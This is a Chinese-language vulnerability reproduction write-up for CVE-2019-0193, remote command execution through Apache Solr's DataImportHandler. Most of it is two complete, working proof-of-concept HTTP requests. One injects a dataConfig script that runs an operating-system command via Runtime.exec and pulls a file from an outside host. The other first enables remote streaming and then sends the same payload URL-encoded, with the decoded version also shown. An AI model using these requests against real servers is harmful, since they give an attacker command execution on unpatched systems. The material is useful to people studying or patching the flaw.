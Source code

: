 （CVE-2019-0193）Apache Solr 远程命令执行漏洞
=============================================

一、漏洞简介
------------

Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于
HTTP 和 Apache Lucene 实现。此次漏洞出现在Apache
Solr的DataImportHandler，该模块是一个可选但常用的模块，用于从数据库和其他源中提取数据。它具有一个功能，其中所有的DIH配置都可以通过外部请求的dataConfig参数来设置。由于DIH配置可以包含脚本，因此攻击者可以通过构造危险的请求，从而造成远程命令执行。

二、漏洞影响
------------

Apache Solr \< 8.2.0

三、复现过程
------------

### poc 一 ：需要目标出网，支持低版本检测

> 判断该索引库是否使用了DataImportHandler模块

-   访问
    `http://www.0-sec.org:8983/solr/test_0nth3way/admin/mbeans?cat=QUERY&wt=json`

-   如果使用了`DataImportHandler`模块
    则HTTP响应内会有:` org.apache.solr.handler.dataimport.DataImportHandler`

1.png

-   构造HTTP请求，远程执行代码

```{=html}
<!-- -->
```
    POST /solr/test_0nth3way/dataimport HTTP/1.1
    Host: www.0-sec.org:8983
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:66.0) Gecko/20100101 Firefox/66.0
    Accept: application/json, text/plain, */*
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Referer: http://192.168.17.136:8983/solr/
    Content-type: application/x-www-form-urlencoded
    X-Requested-With: XMLHttpRequest
    Content-Length: 1231
    Connection: close

    command=full-import&verbose=false&clean=false&commit=false&debug=true&core=test_0nth3way&name=dataimport&dataConfig=
    <dataConfig>


      <dataSource type="URLDataSource"/>
      <script><![CDATA[

              function poc(row){

     var bufReader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec("id").getInputStream()));

    var result = [];

    while(true) {
    var oneline = bufReader.readLine();
    result.push( oneline );
    if(!oneline) break;
    }

    row.put("title",result.join("\n\r"));

    return row;

    }


      ]]></script>

            <document>
                 <entity name="entity1"
                         url="https://raw.githubusercontent.com/1135/solr_exploit/master/URLDataSource/demo.xml"
                         processor="XPathEntityProcessor"
                         forEach="/RDF/item"
                         transformer="script:poc">
                            <field column="title" xpath="/RDF/item/title" />
                 </entity>
            </document>
    </dataConfig>

> demo.xml
>
> 若如上github因不可抗因素失效，可自行用自己vps搭建demo.xml

    <?xml version="1.0" encoding="UTF-8"?>
    <RDF>
    <item/>
    </RDF>

2.png

### poc 二 ：不需要目标出网，不支持低版本检测

-   判断该索引库是否使用了`DataImportHandler`模块（同上）

-   修改`configoverlay.json`文件中的配置，以启用远程流的相关选项
    （enableStreamBody、enableRemoteStreaming）
    注：某些低版本会不成功，即响应500；成功响应200

```{=html}
<!-- -->
```
    POST /solr/test_0nth3way/config HTTP/1.1
    Host: www.0-sec.org:8983
    Accept: */*
    Content-type:application/json
    Content-Length: 159
    Connection: close

    {"set-property": {"requestDispatcher.requestParsers.enableRemoteStreaming": true}, "set-property": {"requestDispatcher.requestParsers.enableStreamBody": true}}

-   构造HTTP请求，远程执行代码

```{=html}
<!-- -->
```
    POST /solr/test_0nth3way/dataimport?command=full-import&verbose=false&clean=false&commit=false&debug=true&core=test_0nth3way&name=dataimport&dataConfig=%3c%64%61%74%61%43%6f%6e%66%69%67%3e%0a%3c%64%61%74%61%53%6f%75%72%63%65%20%6e%61%6d%65%3d%22%73%74%72%65%61%6d%73%72%63%22%20%74%79%70%65%3d%22%43%6f%6e%74%65%6e%74%53%74%72%65%61%6d%44%61%74%61%53%6f%75%72%63%65%22%20%6c%6f%67%67%65%72%4c%65%76%65%6c%3d%22%54%52%41%43%45%22%20%2f%3e%0a%0a%20%20%3c%73%63%72%69%70%74%3e%3c%21%5b%43%44%41%54%41%5b%0a%20%20%20%20%20%20%20%20%20%20%66%75%6e%63%74%69%6f%6e%20%70%6f%63%28%72%6f%77%29%7b%0a%20%76%61%72%20%62%75%66%52%65%61%64%65%72%20%3d%20%6e%65%77%20%6a%61%76%61%2e%69%6f%2e%42%75%66%66%65%72%65%64%52%65%61%64%65%72%28%6e%65%77%20%6a%61%76%61%2e%69%6f%2e%49%6e%70%75%74%53%74%72%65%61%6d%52%65%61%64%65%72%28%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%2e%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%22%69%64%22%29%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29%29%29%3b%0a%0a%76%61%72%20%72%65%73%75%6c%74%20%3d%20%5b%5d%3b%0a%0a%77%68%69%6c%65%28%74%72%75%65%29%20%7b%0a%76%61%72%20%6f%6e%65%6c%69%6e%65%20%3d%20%62%75%66%52%65%61%64%65%72%2e%72%65%61%64%4c%69%6e%65%28%29%3b%0a%72%65%73%75%6c%74%2e%70%75%73%68%28%20%6f%6e%65%6c%69%6e%65%20%29%3b%0a%69%66%28%21%6f%6e%65%6c%69%6e%65%29%20%62%72%65%61%6b%3b%0a%7d%0a%0a%72%6f%77%2e%70%75%74%28%22%74%69%74%6c%65%22%2c%72%65%73%75%6c%74%2e%6a%6f%69%6e%28%22%5c%6e%5c%72%22%29%29%3b%0a%72%65%74%75%72%6e%20%72%6f%77%3b%0a%0a%7d%0a%0a%5d%5d%3e%3c%2f%73%63%72%69%70%74%3e%0a%0a%3c%64%6f%63%75%6d%65%6e%74%3e%0a%20%20%20%20%3c%65%6e%74%69%74%79%0a%20%20%20%20%20%20%20%20%73%74%72%65%61%6d%3d%22%74%72%75%65%22%0a%20%20%20%20%20%20%20%20%6e%61%6d%65%3d%22%65%6e%74%69%74%79%31%22%0a%20%20%20%20%20%20%20%20%64%61%74%61%73%6f%75%72%63%65%3d%22%73%74%72%65%61%6d%73%72%63%31%22%0a%20%20%20%20%20%20%20%20%70%72%6f%63%65%73%73%6f%72%3d%22%58%50%61%74%68%45%6e%74%69%74%79%50%72%6f%63%65%73%73%6f%72%22%0a%20%20%20%20%20%20%20%20%72%6f%6f%74%45%6e%74%69%74%79%3d%22%74%72%75%65%22%0a%20%20%20%20%20%20%20%20%66%6f%72%45%61%63%68%3d%22%2f%52%44%46%2f%69%74%65%6d%22%0a%20%20%20%20%20%20%20%20%74%72%61%6e%73%66%6f%72%6d%65%72%3d%22%73%63%72%69%70%74%3a%70%6f%63%22%3e%0a%20%20%20%20%20%20%20%20%20%20%20%20%20%3c%66%69%65%6c%64%20%63%6f%6c%75%6d%6e%3d%22%74%69%74%6c%65%22%20%78%70%61%74%68%3d%22%2f%52%44%46%2f%69%74%65%6d%2f%74%69%74%6c%65%22%20%2f%3e%0a%20%20%20%20%3c%2f%65%6e%74%69%74%79%3e%0a%3c%2f%64%6f%63%75%6d%65%6e%74%3e%0a%3c%2f%64%61%74%61%43%6f%6e%66%69%67%3e HTTP/1.1
    Host: www.0-sec.org:8983
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:66.0) Gecko/20100101 Firefox/66.0
    Accept: application/json, text/plain, */*
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Referer: http://192.168.17.136:8983/solr/
    Content-Length: 212
    content-type: multipart/form-data; boundary=------------------------aceb88c2159f183f


    --------------------------aceb88c2159f183f
    Content-Disposition: form-data; name="stream.body"

    <?xml version="1.0" encoding="UTF-8"?>
    <RDF>
    <item/>
    </RDF>

    --------------------------aceb88c2159f183f--

> 注：其中dataConfig的值，URLencode之前为以下字符串

    <dataConfig>
    <dataSource name="streamsrc" type="ContentStreamDataSource" loggerLevel="TRACE" />

      <script><![CDATA[
              function poc(row){
     var bufReader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec("id").getInputStream()));

    var result = [];

    while(true) {
    var oneline = bufReader.readLine();
    result.push( oneline );
    if(!oneline) break;
    }

    row.put("title",result.join("\n\r"));
    return row;

    }

    ]]></script>

    <document>
        <entity
            stream="true"
            name="entity1"
            datasource="streamsrc1"
            processor="XPathEntityProcessor"
            rootEntity="true"
            forEach="/RDF/item"
            transformer="script:poc">
                 <field column="title" xpath="/RDF/item/title" />
        </entity>
    </document>
    </dataConfig>

3.png

参考链接
--------

> https://www.cnblogs.com/0nth3way/p/11908763.html
